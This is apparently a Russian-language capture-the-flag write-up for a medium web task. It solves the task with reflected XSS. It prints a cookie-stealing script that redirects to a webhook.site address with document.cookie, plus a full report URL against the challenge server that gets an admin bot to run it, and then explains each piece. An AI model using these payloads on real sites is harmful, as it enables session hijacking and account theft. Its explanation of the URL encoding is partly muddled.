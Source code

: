 # task-2 

**level**: **Medium**

**Description**: Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?

## Решение

Таск связан с XSS уязвимостью. Передадим самый элементарный payload в поле поиска для проверки.

```javascript
<script>alert('XSS')</script>
```


Посмотрив на станицу, мы можем увидеть кнопку **report**.


Админ будет проверять, так что мы можем украсть его cookie
Напишем payload.

```javascript
<script>
  document.location='https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie='%252bencodeURIComponent(document.cookie)
</script>
```

И добавим его к нашему **report-у**.

```
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie='%252bencodeURIComponent(document.cookie)</script>
```

Что это всё значит?

Данный URL запрос содержит два параметра: "**report**" и "**search**". 

Параметр "**report**" содержит ссылку на себя же `http://62.173.140.174:16013/?search=`, а параметр "**search**" содержит скрипт JavaScript, который использует XSS уязвимость для отправки пользовательских cookie на внешний сервер ( в данном случае на `https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie=` ).

Рассмотрим подробнее

- **document.location** используется здесь для перенаправления пользователя на заданный URL `https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie=`. Это сделано с целью отправки украденных cookie на внешний сервер без ведома пользователя.

- Функция **encodeURIComponent()** используется для преобразования специальных символов в их процентное представление в URL. В данном случае, **document.cookie** содержит информацию о cookie пользователя, которая может содержать специальные символы, такие как "=", "&", "?", и др. Функция bencodeURIComponent используется для правильного кодирования всего содержимого document.cookie перед его отправкой на внешний сервер.

- Теперь рассмотрим %252 в выражении %252bencodeURIComponent(document.cookie). %25 в URL представляет собой символ "%". Таким образом, %252 в данном контексте экранирует символ "%", чтобы он был передан как часть параметра в URL. После этого **encodeURIComponent(document.cookie)** кодирует содержимое cookie пользователя, и в результате получается правильный URL, который передаст скрытые cookie на внешний сервер при загрузке страницы с данным скриптом.

Вставим данный URL

И получаем флаг!)
